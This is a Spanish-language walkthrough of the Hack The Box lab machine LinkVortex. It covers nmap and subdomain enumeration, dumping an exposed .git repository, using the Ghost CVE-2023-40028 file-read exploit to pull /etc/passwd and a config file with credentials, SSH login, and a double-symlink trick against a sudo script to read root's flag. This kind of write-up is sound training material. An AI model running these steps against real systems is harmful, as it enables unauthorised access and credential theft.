



# Resolución maquina linkvortex

**Autor:** PepeMaquina  
**Fecha:** 05 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Git, CVE, Script

---

## Imagen de la Máquina

*Imagen: Linkvortex.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.47 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.11.47 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Enumeracion de nombre del dominio
En la enumeración por nmap, se pudo ver que la página redirige a un nombre de dominio que es "linkvortex.htb", asi que de una vez se lo agrega al famoso /etc/hosts
~~~bash
cat /etc/hosts                         
127.0.0.1       localhost
<SNIP>
10.10.11.47 linkvortex.htb dev.linkvortex.htb
~~~
Con esto aprovechamos para hacer reconocimiento de las tecnologias:
~~~ bash
whatweb http://linkvortex.htb  
http://linkvortex.htb [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.11.47], JQuery[3.5.1], MetaGenerator[Ghost 5.58], Open-Graph-Protocol[website], PoweredBy[Ghost,a], Script[application/ld+json], Title[BitByBit Hardware], X-Powered-By[Express], X-UA-Compatible[IE=edge]
~~~
Con ello se puede ver que tecnologias emplea, un plus que tambien se podría usar es utilizar wappallyzer que es una extensión para igualmente poder ver tecnologías pero de manera visual

Se puede ver que utiliza un CMS que es Ghost y su versión 5.58, en mi metodología siempre esta buscar si estas versiones son vulnerables, pero antes siempre dejo corriendo la búsqueda de directorios y la búsqueda de subdominios por si encuentro alguno.
### Enumeración dentro de la pagina web
~~~ bash
feroxbuster -u http://linkvortex.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php

wfuzz -u http://10.10.11.47 -H "Host:FUZZ.linkvortex.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
~~~
Mientras se deja enumerar directorios y subdominios, se buscaron algunos CVE para la versión de ghost 5.58, se logro encontrar una que es la CVE-2023-40028, al ver una PoC de github (https://github.com/0xyassine/CVE-2023-40028), al parecer es una especie de LFI para la lectura de archivos, pero para ello se necesita estar authenticado al una sesion de ghostm, como nose donde se encuentra y tampoco tengo ninguna credencial, por lo que lo dejare para mas adelante.

Al dejar corriendo la enumeración de subdirectorios, se encontró uno que podria ser interesante de ver con el nombre de "dev"
Al entrar en el no se encontró nada útil, asi que volviendo a enumerar los directorios del subdominio, se encontró algo interesante.
~~~bash
dirsearch -u http://dev.linkvortex.htb
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                          
 
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/htb/linkvortex/content/reports/http_dev.linkvortex.htb/_25-10-05_16-26-39.txt

Target: http://dev.linkvortex.htb/

[16:26:39] Starting:                                                                                                                                        
[16:26:47] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/        
[16:26:47] 200 -  557B  - /.git/                                            
[16:26:47] 200 -   73B  - /.git/description                                 
[16:26:47] 200 -  201B  - /.git/config                                      
[16:26:47] 200 -  620B  - /.git/hooks/                                      
[16:26:47] 200 -   41B  - /.git/HEAD
[16:26:47] 200 -  402B  - /.git/info/                                       
[16:26:47] 200 -  240B  - /.git/info/exclude                                
[16:26:47] 200 -  401B  - /.git/logs/                                       
[16:26:47] 200 -  175B  - /.git/logs/HEAD
[16:26:48] 200 -  147B  - /.git/packed-refs                                 
[16:26:48] 200 -  418B  - /.git/objects/
[16:26:48] 200 -  393B  - /.git/refs/                                       
[16:26:48] 301 -  249B  - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
[16:26:48] 403 -  199B  - /.ht_wsr.txt                                      
[16:26:48] 403 -  199B  - /.htaccess.bak1                                   
[16:26:49] 200 -  691KB - /.git/index
[16:26:49] 403 -  199B  - /.htaccess.orig                                   
CTRL+C detected: Pausing threads, please wait...                              
                                                                            
Task Completed
~~~
Se encontró un archivo .git, esto puede ser realmente util ya que podría entregar código de la pagina en desarrollo, para aprovechar ello existen repositorios en github y ver todo el contenido del .git (https://github.com/lijiejie/GitHack)
~~~bash
python3 GitHack.py http://dev.linkvortex.htb/.git
[+] Download and parse index file ...
[+] .editorconfig
[+] .gitattributes
[+] .github/AUTO_ASSIGN
[+] .github/CONTRIBUTING.md
[+] .github/FUNDING.yml
[+] .github/ISSUE_TEMPLATE/bug-report.yml
<SNIP>
~~~
Con todo descargado se tiene un Dockerfile y una carpeta que redirige a una especie de archivo de configuración, al ver este archivo se ve una variedad de contraseñas por defecto y todas dentro de un archivo admin, asi que teniendo algunas credenciales y sabiendo que existe un LFI para el CMS Ghost, seguramente alguna de estas podría servir.
~~~bash
cat ghost/core/test/regression/api/admin/authentication.test.js | grep 'pass' -A 5 
<SNIP>
            const password = 'O<SNIP>5';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
--
                        password,
                        blogTitle: 'a test blog',
                        theme: 'TryGhost/Dawn',
                        accentColor: '#85FF00',
                        description: 'Custom Site Description on Setup &mdash; great for everyone'
                    }]
--
            await agent.loginAs(email, password);
            await agent
                .get('notifications/')
                .expectStatus(200)
                .expect(({body}) => {
                    assert.deepEqual(body.notifications, [], 'The setup should not create notifications');
--
                        password: 'thisissupersafe',
                        blogTitle: 'a test blog'
                    }]
<SNIP>
~~~
Por lo que se anotan todas las credenciales y buscando un lugar para iniciar sesion por ghost se encontro "http://linkvoortek.htb/ghost" asi que la idea es probar.

Por suerte, una de dichas credenciales, es valida y se puede iniciar sesion.

### CVE-2023-40028
Ahora que se tiene acceso al CMS, se puede aprovechar el cve que se encontro antes (https://github.com/0xyassine/CVE-2023-40028), al probarlo se puede ver que si funciona y se puede leer archivos del sistema.
~~~bash
./CVE-2023-40028.sh -u admin@linkvortex.htb -p Oc<SNIP>45                                                                           
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
~~~
Primero se comprobó si se puede leer el /etc/passwd, ahora es cosa de pensar a que archivo importante puede tener credenciales de acceso, recordando, anteriormente se obtuvo un Dockerfile donde menciona una ruta de configuración, por lo que se procede a leer ello para ver que se puede encontrar.
~~~bash
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fi<SNIP>th"
        }
      }
    }
}
~~~
Que suerte, se tiene un usuario y una contraseña, siempre que se encuentre algo de ello, es bueno probarlo con la conexión ssh.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Al probar las credenciales encontradas por ssh, se otorgo acceso al servidor. De esa forma se puede obtener la user flag.
~~~
ssh bob@10.10.11.47    
bob@10.10.11.47's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ 
bob@linkvortex:~$ 
bob@linkvortex:~$ ls
user.txt
bob@linkvortex:~$ cat user.txt 
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Para la escalada de privilegios se realizo el típico sudo -l viendo que tiene permisos sobre un script de ejecución.
~~~
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
~~~
Al leer el archivo, se ve una lógica definida, donde espera un enviar un archivo si o si en formato .png, verifica si existe un enlace simbólico, si el enlace simbólico empieza con "etc" o "root" finaliza sin hacer nada, pero si no y si la variable CHECK_CONTENT esta activada entonces devuelve el contenido.
~~~bash
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh 
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
~~~
Asi que aprovechando esta lógica, se me ocurre que se puede hacer un doble enlace simbólico para en primer lugar leer el archivo root.txt ya que sabemos que ese archivo si existe, y enlazarlo a un png para que el script siga su curso y no pare.
~~~bash
ln -s /root/root.txt print.txt
ln -s /home/bob/print.txt 123.png

ls -la
total 28
drwxr-x--- 3 bob  bob  4096 Oct  5 22:11 .
drwxr-xr-x 3 root root 4096 Nov 30  2024 ..
lrwxrwxrwx 1 root root    9 Apr  1  2024 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 bob  bob  3771 Jan  6  2022 .bashrc
drwx------ 2 bob  bob  4096 Nov  1  2024 .cache
-rw-r--r-- 1 bob  bob   807 Jan  6  2022 .profile
lrwxrwxrwx 1 bob  bob    19 Oct  5 22:11 123.png -> /home/bob/print.txt
lrwxrwxrwx 1 bob  bob    14 Oct  5 22:10 print.txt -> /root/root.txt
~~~

---

## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora al correr el script referenciando el png con doble enlace simbólico deberia poder leer el root.txt, intentando eso: 
~~~bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/123.png
Link found [ /home/bob/123.png ] , moving it to quarantine
Content:
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

